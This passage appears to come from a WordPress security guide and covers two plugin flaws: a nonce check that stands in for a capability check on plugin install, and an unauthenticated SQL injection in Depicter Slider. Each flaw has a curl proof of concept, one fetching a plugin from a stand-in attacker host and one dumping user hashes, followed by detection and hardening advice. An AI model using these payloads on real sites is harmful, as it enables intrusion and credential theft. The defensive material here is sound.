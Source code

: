 Nonces prevent CSRF, not authorization. If code treats a nonce pass as a green light and then skips capability checks for privileged operations (e.g., install/activate plugins), unauthenticated attackers can meet a weak nonce requirement and reach RCE by installing a backdoored or vulnerable plugin.

- Vulnerable path: plugin/install_and_activate
- Flaw: weak nonce hash check; no current_user_can('install_plugins'|'activate_plugins') once nonce “passes”
- Impact: full compromise via arbitrary plugin install/activation

PoC (shape depends on plugin; illustrative only)

```bash
curl -i -s -X POST https://victim.tld/wp-json/<fk-namespace>/plugin/install_and_activate \
  -H 'Content-Type: application/json' \
  --data '{"_nonce":"<weak-pass>","slug":"hello-dolly","source":"https://attacker.tld/mal.zip"}'
```

Detection checklist
- REST/AJAX handlers that modify plugins/themes with only wp_verify_nonce()/check_admin_referer() and no capability check
- Any code path that sets $skip_caps = true after nonce validation

Hardening
- Always treat nonces as CSRF tokens only; enforce capability checks regardless of nonce state
- Require current_user_can('install_plugins') and current_user_can('activate_plugins') before reaching installer code
- Reject unauthenticated access; avoid exposing nopriv AJAX actions for privileged flows

---

## Unauthenticated SQLi via s search parameter in depicter-* actions (Depicter Slider ≤ 3.6.1)

Multiple depicter-* actions consumed the s (search) parameter and concatenated it into SQL queries without parameterization.

- Parameter: s (search)
- Flaw: direct string concatenation in WHERE/LIKE clauses; no prepared statements/sanitization
- Impact: database exfiltration (users, hashes), lateral movement

PoC

```bash
# Replace action with the affected depicter-* handler on the target
curl -G "https://victim.tld/wp-admin/admin-ajax.php" \
  --data-urlencode 'action=depicter_search' \
  --data-urlencode "s=' UNION SELECT user_login,user_pass FROM wp_users-- -"
```

Detection checklist
- Grep for depicter-* action handlers and direct use of $_GET['s'] or $_POST['s'] in SQL
- Review custom queries passed to $wpdb->get_results()/query() concatenating s

Hardening
- Always use $wpdb->prepare() or wpdb placeholders; reject unexpected metacharacters server-side
- Add a strict allowlist for s and normalize to expected charset/length

---